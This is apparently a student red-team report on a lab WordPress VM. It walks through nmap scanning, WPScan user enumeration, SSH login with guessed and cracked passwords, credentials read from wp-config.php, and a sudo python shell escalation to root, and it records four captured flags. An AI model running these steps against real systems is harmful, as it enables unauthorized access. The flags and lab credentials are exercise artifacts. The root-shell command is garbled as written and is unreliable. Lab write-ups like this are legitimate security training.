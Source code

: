 ##Red Team: Summary of Operations

Table of Contents

- Exposed Services
- Critical Vulnerabilities
- Exploitation

Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

- $ nmap -sV -A 192.168.1.100

!C:\Users\Nanneys\Final-Project\Images\NMAP_scan.png

This scan identifies the services below as potential points of entry for Target 1:

- Port 22/TCP Open SSH
- Port 80/TCP Open HTTP
- Port 111/TCP Open rpcbind
- Port 139/TCP Open netbios-ssn
- Port 445/TCP Open netbios-ssn

The following vulnerabilities were identified on the Target 1 VM:

- User enumeration 
- Weak user passwords
- No use of salt on hashed passwords
- Misconfigured user privileges

Exploitation

The Red Team was able to penetrate Target 1 and retrieve the following confidential data:

- Flag1.txt: b9bbcb33e11b80be759c4e8448622482d

- Exploit Used
  - WPScan was used to enumerate users on the WordPress site
  - $ wpscan --url http://192.168.1.110/Wordpress --enumerate u

!C:\Users\Nanneys\Final-Project\Images\Enumeration.png

  - After enumerating users, guessed user Michael’s password: michael
  - Connected via SSH using Michael’s credentials.
    - $ ssh michael@192.168.1.110 
  - Found first flag in /var/www/html/service.html directory and file by using following command:
    - $ grep -ir flag1 /var/www 

!C:\Users\Nanneys\Final-Project\Images\Flag1.png

- Flag2.txt: fc3fd58dcdad9ab23faca6e9a36e581c

- Exploit Used
  - Used similar commands to search directories and files in Michael’s machine.
  - Search through Michael’s directories uncovered the second flag:

!C:\Users\Nanneys\Final-Project\Images\Flag2.png

- Flag3.txt: afc01ab56b50591e7dccf93122770cd2

- Exploit Used
  - Searching for file name, located the wp-config.php containing Michael’s mysql login credentials, including password: R@v3nSecurity

!C:\Users\Nanneys\Final-Project\Images\SQL_creds.png

  - Logged into mysql with following command
    - $ mysql -u root - p wordpress
  - Ran the following sql commands to enumerate the tables:
    - show databases;
    - use wordpress;
    - show tables;

!C:\Users\Nanneys\Final-Project\Images\mysql_table.png

    - select * from wp_posts;

!C:\Users\Nanneys\Final-Project\Images\Flag3.png

    - select * from wp_users;

!C:\Users\Nanneys\Final-Project\Images\Hashed_passwords.png

  - On the Kali machine, the hashed passwords (displayed above) were cracked using John the Ripper:
    - $ john wp_hashes.txt

!C:\Users\Nanneys\Final-Project\Images\Steve_password.png

  - Steven’s password was obtained: pink84

- Flag4.txt: 715dea6c055b9fe3337544932f2941ce

- Exploit Used
  - Connected via SSH using Steven’s credentials
    - $ ssh steven@192.168.1.110

!C:\Users\Nanneys\Final-Project\Images\Steve_account.png

  - Attempted to switch to root by enumerating sudo privileges:
    - $ sudo -l

!C:\Users\Nanneys\Final-Project\Images\Steve_sudo.png

  - Escalated to root by using the following python command:
    - $ sudo python -c ‘import pty: pty.spawn(*/bin/sh”)’

! C:\Users\Nanneys\Final-Project\Images\Python_command.png

  - With access to root, found the 4th flag:

!C:\Users\Nanneys\Final-Project\Images\Flag4.png